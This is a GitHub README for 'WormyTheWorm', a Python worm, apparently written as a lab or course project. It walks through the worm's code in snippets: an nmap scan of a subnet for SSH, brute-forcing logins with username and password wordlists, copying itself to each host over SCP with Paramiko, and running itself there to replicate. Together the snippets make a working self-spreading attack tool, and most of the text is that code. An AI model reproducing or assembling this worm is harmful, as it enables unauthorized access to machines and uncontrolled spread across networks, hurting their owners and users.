 # WormyTheWorm
___

## Summary: 
> A Python worm that scans & infects a given subnet while replicating itself. 
> Below is a breakdown of the code, including screenshots & descriptions of the processes used. 

## Table of Contents
- [Dependents](#dependents)
- [NMAP](#nmap)
- [Brute Force](#brute-force) 
- [SSH and Paramiko](#ssh-and-paramiko)
- [Try/Except loop for SSH & SCP via Paramiko](#try-except-loop-for-SSH-and-SCP-via-Paramiko)
- [Verifying Output](#verifying-output)
___
## Dependents 
&NewLine; 
```sh
import nmap
import paramiko
import sys
from scp import SCPClient
```

The above must be installed on the local machine for the program to run successfully. Use the below code to install each successfully. 

**Pip:**
```sh
sudo apt install python3-pip
```
**NMap:**
```sh
sudo apt-get install nmap
pip install python-nmap
```
**Paramiko:**
```sh
pip install paramiko
```
**SCP:**
```sh
pip install git+https://github.com/jbardin/scp.py
```

## NMap

NMap is used to scan a given subnet & return all host IPs on the network. 

**NMap Explained**

1. A variable is defined that calls the port scanner method. 
2. **The target subnet is identified - the default port will always be 22 for SSH utilization.**
3. The command line method is initialized. 
```sh
nmScan = nmap.PortScanner()
nmScan.scan('10.0.0.0/24', '22')
nmScan.command_line()
```
1. A list called "networkhosts" is defined, which will contain the IPv4 addresses located on the subnet. 
2. A "for" loop is intialized. This loop iterates through all hosts & stores them via the append method in "networkhosts", defined above. 
```sh
networkhosts = []
for host in nmScan.all_hosts():
    networkhosts.append(host)
print(networkhosts)
```
3. "networkhosts" is printed out on the command line, showing us the list of IPv4 addresses on our subnet.

![IPs on the subnet](./printedipv4.png)

## Brute Force 

The brute force method of username / password cracking takes predefined wordlists & runs all possible combinations against a log-in barrier. The size of the wordlist will effect the success rate, but increased wordlist length correlates to an increase in time. In our example code, small wordlists of four usernames & four passwords are defined for the sake of time, but could be substituted for a longer list (such as rockyou.txt) using the path provided below: 
```sh
/usr/share/wordlists/rockyou.txt
```
The variables used by SSH/Paramiko (explained in further section) are defined in a "for" loop that will ultimately iterate through each host previously amended to "networkhosts". 
```sh
for element in networkhosts:
    host = element
    port = 22
```
The wordlists referenced above are also defined. 
```sh
usernames = ['sam','gavin','stephen','devon']
passwords = ['admin','stephen','penelope','password']
```

## SSH and Paramiko

Paramiko is Python's implementation of SSHv2 proctocol and is the crux of WormyTheWorm's ability to infiltrate hosts on a local network. 

First, two subsequent "for" loops utilize the word lists defined in the "Brute Force" section above. Each "for" loop combination contains a different combination of "users" & "pwords", and SSH is attempted via Paramiko using each one. The variables "username" and "password", which are native to Paramiko, are defined. 

```sh
for user in usernames:
        for pword in passwords:
            username = user
            password = pword
```
Next, the "command" variable is defined. This sequence is executed via the target machine's command line once SSH connection is established. This command in particular performs the following:
1. WormyTheWorm is executed - this is how the worm replicates. Identical code will be executed on the target machine, and the process will begin anew. 
2. A file called "WormyWuzHere" is created. 
3. The line "Haha no code for you :)" is written to the file above. 
4. WormyTheWorm gets deleted.
```sh
command = "./WormyTheWorm && touch 'WormyWuzHere' && echo 'Haha no code for you :)' > WormyWuzHere && rm WormyTheWorm"
```
The first line of the code below creates a new SSHCLient, and the second line allows the script to SSH to a remote server with unknown SSH keys. 
```sh
ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy()
```
## Try Except loop for SSH and SCP via Paramiko

A "try block" & an "except block" are used to set a timeout limit & an appropriate response, to increase the speed of Wormy as a whole. 

Within the "try block" the following occurs (in order):
1. ssh.connect is initialized, utlizing the previously defined username, password, and host variables. The timeout is set at 5 seconds. 
2. SCP variable is defined intliazed using the SCPClient via a get_transport request. This allows the WormyTheWorm file to be transported to the host machine in preparation for execution & replication. 
3. An SCP put request that references the first item on the command line (WormyTheWorm executable) is inialized. This step places the file onto to the target machine. 
4. The previously defined command in executed on the target machine. 
5. If the above works as it should within the time limit, a message displaying the host IP & "Success :)" will be displayed. 
```sh
 try:
        ssh.connect(host, port, username, password, timeout=5)
        scp = SCPClient(ssh.get_transport())
        scp.put(sys.argv[0])
        stdin, stdout, stderr = ssh.exec_command(command)
        print(host + ' Success :)')
```
Within the "except block" the following occurs:
1. If the "try block" is unsuccessful, a message displaying the host IP & "Timeout :(" will be displayed. 
```sh
 except:
        print(host + ' Timeout :(')
```

## Verifying Output

After the script runs, the ```ls``` command on the target machine's terminal will show if the attack was successful. If it was, "WormyTheWorm" will be included in the output of the ```ls``` command. (```ls``` shows all of the files in the current directory; right after a login, ```ls``` will usually refer to the home directory).


The command line shows us a log of each attempt to **gain access to a target using a specific username and password combination.** The image below shows a portion of that log:

![output log](./shortoutput.png)

After the success on 10.0.0.154, Wormy attempts to brute force 10.0.0.188, the next target.


